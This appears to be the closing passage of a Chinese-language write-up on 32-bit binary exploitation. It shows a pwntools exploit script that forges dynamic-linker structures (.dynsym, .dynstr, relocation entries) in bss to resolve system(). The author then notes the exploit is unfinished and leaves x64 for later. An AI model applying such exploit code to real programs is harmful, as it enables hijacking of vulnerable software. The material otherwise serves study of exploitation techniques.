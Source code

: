 ```
    payload2 = p32(elf.got['fflush']) + p32(off)
    p.sendline(payload2)
#    gdb.attach(p)

    # fake .dynsym on bss
    # 0x0000001a      0x00000000      0x00000000      0x00000012
    addr += len(payload2)
    payload1 = offset * 'a' + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(addr) + p32(100)
    p.sendline(payload1)
    off = addr - dynstr_addr + 0x10
    print 'offset_dynstr => ', hex(off) # 15f0
    payload2 = p32(off) + p32(0) + p32(0) + p32(0x12)
#    gdb.attach(p, open('debug'))
    p.sendline(payload2)

    # fake .dynstr
    addr += len(payload2)
    payload1 = offset * 'a' + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(addr) + p32(100)
    p.sendline(payload1)
#    gdb.attach(p, open('debug'))
    payload2 = 'system\x00'
    p.sendline(payload2)
#    gdb.attach(p, open('debug'))

    # fake reloc_args & mov eip, plt[0]
    reloc_args = bss_addr - relplt_addr + 0x14
    print 'reloc_args => ', hex(reloc_args)
    gdb.attach(p, open('debug'))
    payload1 = offset * 'a' + p32(plt_addr) + p32(reloc_args) + p32(elf.plt['fflush']) + p32(vuln_addr) + p32(bss_addr)
    p.sendline(payload1)
#    gdb.attach(p)

if __name__ == '__main__':
    pwn()
    p.interactive()
```

最后在控制`eip`到`plt[0]`的位置时，我遇到了传参的问题，当我将`reloc_adgs`压入栈中后，我无法将将要调用函数`fflush()(事实上是systm())`的参数`/bin/sh\x00`压入栈中了，这里可能需要用到rop去控制esp和栈的内容，暂时先不去研究这个。

### 其他可能的利用？

当我们可以控制`.dynamic`后是否可以改变别的值去控制程序（连接器？）解析到其他的地址上，是否还有其他的利用方式？

### x64

关于64位的利用方式应该是差不多的，暂时没精力研究了，先挖坑，以后填吧，先去研究沙盒了。

## 叹

还是太菜了，弄明白个这个玩意都要花接近一天。。。。TAT